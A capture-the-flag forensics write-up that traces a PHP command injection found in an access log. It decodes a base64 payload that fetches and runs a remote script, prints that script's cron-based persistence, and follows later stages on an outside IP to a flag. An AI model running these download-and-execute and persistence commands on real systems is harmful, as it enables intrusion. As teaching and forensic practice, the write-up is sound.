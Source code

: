 # H4x0r3d (264 pt)

Task by Mikhail Driagunov (@aethereternity) · Par time: ~40 min
○○○○○○○○○●●○●○○○○○●○●○○○○○○●○○○○○○○○○●○○●○○○●○○○○○●○○○○○○○●○○○○○○

I've tried to learn some PHP, but some evil guy hacked me!

Can you catch him by looking at my logs?

Download: [h4x0r3d_logs.7z](h4x0r3d_logs_c0abe4acb8.7z)

# Solution

Inspecting `access.log`, we find a suspicious request:

> 192.168.138.1 - - [29/Oct/2020:00:08:06 +0300] "GET /test-verysecretfile.php?expression=shell_exec%28%22%60echo+c2ggLWMgIiQod2dldCAtTy1odHRwczovL2dpc3QuZ2l0aHVidXNlcmNvbnRlbnQuY29tL0FldGhlckV0ZXJuaXR5LzQ4NGZlYzZmYjBmMjdlZjZlYzgxYjU4YWVlNTZlZGQxL3Jhdy8wN2MyZjc5NjBlYTE1MmVmOTRjMjBmZDJjMDlkZjU0YmMyMWQ4NmU5L3N0YWdlLnNoKSI%3D+%7C+base64+-d%60%22%29 HTTP/1.1" 200 435 "-" "python-requests/2.23.0"

The base64 string decodes to:

```
sh -c "$(wget -O-https://gist.githubusercontent.com/AetherEternity/484fec6fb0f27ef6ec81b58aee56edd1/raw/07c2f7960ea152ef94c20fd2c09df54bc21d86e9/stage.sh)"
```

Now let's see what this piece of code does:

```
#!/bin/sh
NEW_UUID=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1)

echo $NEW_UUID > /etc/persist

BASE="http://188.143.222.218:4455/persist?uuid="
wget -O /etc/cron.hourly/persist "$BASE$NEW_UUID"
chmod +x /etc/cron.hourly/persist
```

Where can we find this UUID? Let's have a look at `syslog`:

> Oct 29 0:26:54 debian-min root: Started door with uid AV0pUn47GjLGyaOXdMAbfeuef6WDFGfy

Now we visit [http://188.143.222.218:4455/persist/?uuid=AV0pUn47GjLGyaOXdMAbfeuef6WDFGfy](http://188.143.222.218:4455/persist/?uuid=AV0pUn47GjLGyaOXdMAbfeuef6WDFGfy)

```
#!/bin/sh
UUID = `cat /etc/persist`
BASE="http://188.143.222.218:4455/?uuid="
logger -s "Started door with uid $UUID"
sh -c "$(wget -O- $BASE$NEW_UUID)"
```

Follow the trace to [http://188.143.222.218:4455/?uuid=AV0pUn47GjLGyaOXdMAbfeuef6WDFGfy](http://188.143.222.218:4455/?uuid=AV0pUn47GjLGyaOXdMAbfeuef6WDFGfy):

```
sh -c "`echo ZWNobyBPTllHRVkzVU1aNVdXTVpUT0JQWFNNRFZPSlBXTTVEUUw1WlRJWlJUUFVGQT09PT0gfCBiYXNlMzIgLWQgPiAvZXRjL3NlY3JldC5mbGFnCg== | base64 -d`"
```

Decode the base64 string:

```
echo ONYGEY3UMZ5WWMZTOBPXSMDVOJPWM5DQL5ZTIZRTPUFA==== | base32 -d > /etc/secret.flag
```

Decode again and we get the flag: `spbctf{k33p_y0ur_ftp_s4f3}`
